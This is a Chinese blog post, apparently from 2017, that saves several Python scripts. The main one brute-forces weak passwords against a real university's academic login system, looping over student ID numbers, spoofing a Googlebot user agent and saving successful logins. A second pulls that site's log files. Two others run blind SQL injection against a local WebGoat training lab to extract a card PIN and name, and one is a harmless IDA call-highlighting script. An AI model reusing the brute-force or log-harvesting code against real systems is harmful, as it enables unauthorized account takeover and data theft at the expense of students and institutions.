 ```yaml
---

layout: post

title: 'python脚本备份'

date: '2017-06-18'

header-img: "img/home-bg.jpg"

tags:
     - python  
author: 'De4dCr0w'

---
```


### 正方教务系统弱口令 ###

	#coding:utf-8
	import requests
	
	url = 'http://zfjw.tjykdxlcyxy.cn/(2izend4512fei5nhksssaw45)/default4.aspx'#天津医科大学临床医学院  正方教务处
	
	#username = 1604020408
	weak = ['000000',
	'111111',
	'222222',
	'333333',
	'444444',
	'555555',
	'666666',
	'777777',
	'888888',
	'999999',
	'123456',
	'654321',
	'qweqwe',
	'123123'
	]
	
	for i in range(1604020000,1604029999):
	    for j in weak:
	        username = str(i)
	        print username
	        passwd = str(j)
	        data = {
	        "__VIEWSTATE":"dDwxMTE4MjQwNDc1Ozs+/qN9q0GVi7WN0iH/jz8h6QhLSvg=",
	        "TextBox1":username,
	        "TextBox2":passwd,
	        "RadioButtonList1":"学生",
	        "Button1":" 登 录 "
	        }
	        #cookies = {}
	        headers = {"Host":"zfjw.tjykdxlcyxy.cn",
	        "User-Agent":"Googlebot/2.1 (+http://www.google.com/bot.html)",
	        "Referer":"http://zfjw.tjykdxlcyxy.cn/(2izend4512fei5nhksssaw45)/default4.aspx",
	        "Cookie":"safedog-flow-item=",
	        }
	        req = requests.post(url=url,data=data,headers=headers)
	        #print req.content
	        if req.content.find('alert') == -1:
	            f = open(username+'_'+passwd+'.txt','w')
	            print >> f,req.content
	            #print req.content
	            f.close()

### 正方教务处日志下载 ###

	import requests
	import datetime
	
	begin = datetime.date(2017,5,1)
	end = datetime.date(2017,5,1)
	
	for i in range((end - begin).days+1):
	    day = begin+datetime.timedelta(days=i)
	    url = 'http://zfjw.tjykdxlcyxy.cn/log/%s-log.txt'%str(day)
	    #print url 
	
	    req = requests.get(url)
	
	#print req.content
	
	    if req.content.find('passwd') == -1:
	        print day
	        f = open(str(day)+".txt","w")
	        print >> f,req.content
	        f.close()

### ida高亮call指令 ###

	from idautils import *
	from idc import *
	
	heads = Heads(SegStart(ScreenEA()),SegEnd(ScreenEA()))
	
	functionCalls = []
	
	for i in heads:
	    if GetMnem(i) == "call":
	        functionCalls.append(i)
	print "Number of calls found: %d"%(len(functionCalls))
	
	for i in functionCalls:
	    SetColor(i,CIC_ITEM,0xc7fdff)

### WebGoat数字盲注 ###

	import re
	import requests
	import time
	
	cookies = dict(JSESSIONID='A9DDDE87B8D317640143AD42C8AB0CFB')
	
	url = 'http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100'
	
	#payload = "101 and 1=2"
	low = 0
	high = 10000
	mid = 5000
	payload = "101 and ((select pin from pins where cc_number='1111222233334444')="+str(mid)+")"
	print payload
	data = {'account_number':payload,'SUBMIT':'Go!'}
	req = requests.post(url=url,data=data,cookies=cookies)
	print req.content
	
	while low <= high:#采用二分法查找
		mid = (low+high)/2
		payload = "101 and ((select pin from pins where cc_number='1111222233334444')="+str(mid)+")"
		print payload
	        data = {'account_number':payload,'SUBMIT':'Go!'}
	        req = requests.post(url=url,data=data,cookies=cookies)
	        if req.content.find('Account number is valid.') != -1:
			print 'succeed:'+str(mid)
			break
		time.sleep(1)
		payload = "101 and ((select pin from pins where cc_number='1111222233334444')>"+str(mid)+")"
		data = {'account_number':payload,'SUBMIT':'Go!'}
		req = requests.post(url=url,data=data,cookies=cookies)
		print req.content
		if req.content.find('Invalid account number.') != -1:
			high = mid-1
		elif req.content.find('Account number is valid.') != -1:
			low = mid+1
	print 'it\'s over,not found!'

### WebGoat字符串盲注 ###

	import re
	import requests
	import time
	
	cookies = dict(JSESSIONID='A9DDDE87B8D317640143AD42C8AB0CFB')
	
	url = 'http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100'
	
	#payload = "101 and 1=2"
	charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
	k = 1
	for j in range(0,5):
		for i in charset:
			payload = "101 and (substring((select name from pins where cc_number='4321432143214321'),%d,1)='%c')"% (k,i)
			#print payload
	        	data = {'account_number':payload,'SUBMIT':'Go!'}
	        	req = requests.post(url=url,data=data,cookies=cookies)
			#print req.content
	        	if req.content.find('Invalid account number') != -1:
				continue
			elif req.content.find('Account number is valid.') != -1:
				print i,
				k = k+1
		
	print ''
	print 'it\'s over,not found!'


